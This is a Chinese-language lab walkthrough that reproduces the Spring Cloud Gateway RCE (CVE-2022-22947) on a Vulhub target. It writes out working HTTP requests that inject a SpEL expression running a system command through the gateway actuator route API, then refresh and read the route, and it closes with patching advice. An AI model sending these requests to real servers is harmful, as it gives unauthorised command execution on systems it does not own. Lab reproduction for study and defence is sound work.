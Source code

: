 # 【CVE-2022-22947】_Spring Cloud Gateway RCE

*** 前言***

- 使用的Vulhub靶场
- 攻击机：192.168.200.155， 靶机： 192.168.200.150

### 漏洞原理

Acutator可以通过接口列出、创建、刷新路由：

1. /actuator/gateway/routes    列出路由

2. /gateway/routes/{id_routers_to_create}   创建路由  

3. /actuator/gateway/refresh   刷新路由

当路由带有恶意的Filter时，里面的恶意sqEL表达式将会被执行



### 影响范围

Spring Cloud Gateway <3.1.1

Spring Cloud Gateway <3.0.7

### 漏洞复现

- kali里用docker-compose up -d 启动docker环境

  ![image-20240506130300943](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240506130300943.png)

  

- 查看到8080端口出现该页面即启动成功。

  ![image-20240506130434737](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240506130434737.png)

- 攻击机开启Burp Suite进入重放模块使用POST请求构造spEL表达式的路由并发送。

  ```
  //使用POST请求创建一个名为'zz'的路由
  
  POST /actuator/gateway/routes/zz  HTTP/1.1
  Host: 192.168.200.150:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like         Gecko) Chrome/97.0.4692.71 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 310
  
  
  {
    "id": "zz",
   "filters": [{
  "name": "AddResponseHeader",
  "args": {
    "name": "Result",
    "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
  }
    }],
    "uri": "http://example.com"
  }
  
  ```

  

![image-20240506132747081](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240506132747081.png)

- 应用之前的路由，再构造并发送一个刷新路由的数据包。

  ```
  //使用POST请求刷新路由
  
  
  POST /actuator/gateway/refresh  HTTP/1.1
  Host: 192.168.200.150:8080
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Connection: close
  Content-Type: application/json
  Content-Length: 0
  
  
  
  ```
  ![image-20240506141126038](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240506141126038.png)

- 最后构造一个数据包来查看执行结果。

  ```
  //列出路由的请求包
  
  GET /actuator/gateway/routes/zz HTTP/1.1
  Host: 192.168.200.150:8080
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Connection: close
  Content-Type: application/json
  Content-Length: 0
  
  
  ```
  ![image-20240506141350979](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240506141350979.png)

- 可以看到命令成功执行，此次漏洞复现成功。

### 漏洞修复

1. 升级安全版本。
2. 打补丁。

  